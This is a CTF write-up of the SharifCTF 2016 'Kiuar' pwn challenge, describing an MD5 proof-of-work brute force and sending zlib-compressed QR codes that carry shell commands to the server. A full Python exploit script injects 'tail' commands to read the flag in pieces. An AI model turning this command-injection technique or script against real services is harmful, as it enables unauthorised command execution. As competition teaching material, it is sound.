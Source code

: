 ```yaml
---
layout: post
title:  "Sharif University CTF 2016: Kiuar"
author: skogler
categories: writeup
---
```


* **Category:** pwn
* **Points:** 200
* **Description:**

> telnet ctf.sharif.edu 12432
> Trying 213.233.175.130...
> Connected to ctf.sharif.edu.
> Escape character is '^]'.
> Welcome to Sharif blackbox challenge :)
> Proof of work: Are you ready?
> Give me a 32-bit hex integer, whose leftmost 22 bits of its MD5 is 1000001010110000011101.
> You have 60 seconds to reply.

## Write-up

When connecting to the given server address, it would present us with the above
task. The challenge was to compute the MD5 of a 32-bit integer so that the
leftmost 22 bit of the MD5 would match the given value. The bits to match
changed every time a new connection is established, but the length was fixed.
The server would also reject any input with less than 5 characters.

This seemed quite easy at first, but the server would not accept my computed
values. Thankfully, my colleage did interpret the task differently; he found
out that we needed to compute the MD5 of the *hex string representation* of the
32-bit integer, so something like this:

```python
result_md5 = hashlib.md5(hex(i))
```

This finally worked, which brought us the next step of the challenge. We got
these bytes from the server:

```
00000000  78 9c 0b 4e  cd 4b 51 a8  cc 2f 2d 52  08 0c 52 48  │x··N│·KQ·│·/-R│··RH│
00000010  ce 4f 49 b5  e2 8a cc 2f  55 c8 48 2c  4b 55 30 34  │·OI·│···/│U·H,│KU04│
00000020  50 28 4e 4d  ce cf 4b 29  56 28 c9 57  28 4a 2d c8  │P(NM│··K)│V(·W│(J-·│
00000030  a9 d4 e3 02  00 9b f3 10  54                        │····│····│T│
```

We saved this to a file and ran the ```file``` tool on it:

```
result: zlib compressed data
```

Nice, so just run ```zlib.decompress``` on it in python:

```
Send your QR code:
You have 10 seconds to reply.
```

It seemed we could send some data hidden within a QR code. However, sending
this code was not quite easy. The first problem was that the server would only
accept messages compressed with zlib:


```
Your data is not in proper compressed format :(
```

This was solved by compressing the message using zlib. However, we also needed
to get a message of exactly 200 bytes, since the server would reject everything
else. To solve this, we compressed the payload first, then padded the message
with zero bytes so it had a  length of exactly 200.

The hard part was getting a QR code with a size smaller than 200 bytes. It
seems the typical tools to generate QR codes do not optimize for size at all.
After a long time of trial and error, we ended up with the following command to
generate the PNG QR code:

```
qrencode -s 1 -v 1 -m 1 -o test.png "<payload>" && optipng test.png
```

If the length of the payload was not too long (I think about 10 bytes), this
would suffice.  It also took us quite a while to find out that the server would
only recognize the QR code if it had a margin of at least 1 pixels.

When finally succeeded, we found out that we could send shell commands inside the QR code.
There was a file called flag in the server's working directory, which we needed to read:

```
Flag: The output of your command is large, I only send 18 bytes of it :P 
    SharifCTF{b5ffb0e6
```

Since the organizers did not allow us to just cat the file, we needed to run
the script multiple times and inject tail commands with different offsets to
reconstruct the flag manually.

Finally, here is the script we used to get the flag:

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

import ctypes
import struct
import hashlib
import sys
import zlib
import os
from pwn import *

context.log_level = 'info'


commands = [
        "tail -c 18 flag",
        "tail -c 36 flag",
        "tail -c 54 flag",
        ]

results = list()

for command in commands:
    os.system('qrencode -s 1 -v 1 -m 1 -o test.png "' + command + '" && optipng test.png')
    zcode = ""

    with open('test.png') as qrfile:
        qrbytes = qrfile.read()
        zcode = zlib.compress(qrbytes)
        print("len: {}".format(len(zcode)))
        zcode = zcode.ljust(200, '\x00')
        print("len: {}".format(len(zcode)))
        if len(zcode) > 200:
            sys.exit()

    conn = remote('ctf.sharif.edu', 12432)
    conn.recvline()
    conn.recvline()
    challenge = conn.recvline()

    data = ctypes.create_string_buffer(4)
    m = hashlib.md5()

    target_bits = challenge.split(" ")[-1][:-2]
    #target_bits = target_bits.ljust(32, '0')
    #target_mask = int(target_bits, 2)
    #print("mask {}".format(bin(target_mask)))

    conn.clean_and_log()

    lower_bound = 0x100000
    upper_bound = 2**32

    for i in xrange(lower_bound, upper_bound):
        integer_hex         = hex(i)
        integer_hex_encoded = integer_hex.encode('utf-8')
        integer_hex_md5 = hashlib.md5()
        integer_hex_md5.update(integer_hex_encoded)

        md5 = integer_hex_md5.hexdigest()

        binary = bin(int(md5, 16))[2:]

        if binary.startswith(target_bits):
            #print("Hash {}".format(md5))
            conn.send(hex(i))
            break

    conn.recvline()
    result = conn.recv()

    with open('test.png') as qrfile:
        qrbytes = qrfile.read()
        zcode = zlib.compress(qrbytes)

        zcode = zcode.ljust(200, '\x00')
        conn.send(zcode)

    conn.recvline()
    res = conn.recv()
    log.info(res)

    results.append(res)

    conn.close()

log.info(",\n".join(results))
```

